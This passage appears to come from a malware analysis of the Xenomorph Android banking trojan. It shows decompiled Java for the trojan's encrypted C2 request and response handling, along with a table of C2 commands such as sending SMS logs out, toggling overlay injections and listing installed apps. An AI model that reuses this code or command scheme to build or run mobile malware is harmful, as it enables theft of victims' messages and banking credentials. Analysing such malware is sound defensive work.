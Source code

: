 ```java
        ApiOperationBody apiOperationBody = new ApiOperationBody(UtilEncryption.digestAndEncodeMessage(UtilEncryption.concatenateBytes(Constants.testKey, verificationBytes, (byte[]) encryptMessage.second)), UtilEncryption.digestAndEncodeMessage(androidIDBytes), UtilEncryption.encodeBase64((byte[]) encryptMessage.second), UtilEncryption.encodeBase64((byte[]) encryptMessage.first));
        ApiInterface apiInterface = ApiClient.getInterface(context);
        if (z) {
            UtilGlobal.Log("sendRequest", apiOperationBody.toString());
            asyncVoidCall(apiInterface.voidOperation(apiOperationBody));
            return;
        }
        apiInterface.operation(apiOperationBody).enqueue(this);
    }
```

```java
    public void onResponse(Call<ApiOperationBody> call, Response<ApiOperationBody> response) {
        byte[] verificationBytes = UtilGlobal.getVerificationBytes(this.contextWeakReference.get());
        byte[] androidIDBytes = UtilGlobal.getAndroidIDBytes(this.contextWeakReference.get());
        ApiOperationBody body = response.body();
        if (body == null) {
            UtilGlobal.Log("onResponse", "body == null");
            return;
        }
        byte[] decodeBase64 = UtilEncryption.decodeBase64(body.hash);
        byte[] decodeBase642 = UtilEncryption.decodeBase64(body.id);
        byte[] decodeBase643 = UtilEncryption.decodeBase64(body.iv);
        byte[] decryptMessage = UtilEncryption.decryptMessage(UtilEncryption.decodeBase64(body.metrics), verificationBytes, decodeBase643);
        if (!UtilEncryption.digestCompare(androidIDBytes, decodeBase642)) {
            UtilGlobal.Log("onResponse", "UID digest is wrong");
        } else if (!UtilEncryption.digestCompare(UtilEncryption.concatenateBytes(Constants.testKey, verificationBytes, decodeBase643), decodeBase64)) {
            UtilGlobal.Log("onResponse", "KEY/SID/IV digest is wrong");
        } else {
            parsePayload(decryptMessage);
        }
    }
```

The parsed payload could also contain C2 commands to be executed by Xenomorph on the infected device. Some of those don't seem to be implemented yet.

| Command | Action |
| ------ | ------- |
| sms_log | Sends user SMS back to C2 in the following form : `SmsModel {id = "Sender ID/Name", recipient = "Recipient", message = "Message Body", readState = "Message Read Status", time = "Message timestamp", type = " Inbox/Sent/Draft/Outbox/Failed/Queued/Unknown "}` |
| notif_ic_disable | Disable notification listener |
| notif_ic_enable | Enable notification listener |
| sms_ic_disable | Disable SMS listener |
| sms_ic_enable | Enable SMS listener |
| inj_enable | Enable overlay injections |
| inj_disable | Disable overlay injections |
| app_list | Report back with a list of package names of installed apps |
| inj_update | Updates the injections list |
| fg_disable | Not Implemented |
| inj_list | Not Implemented |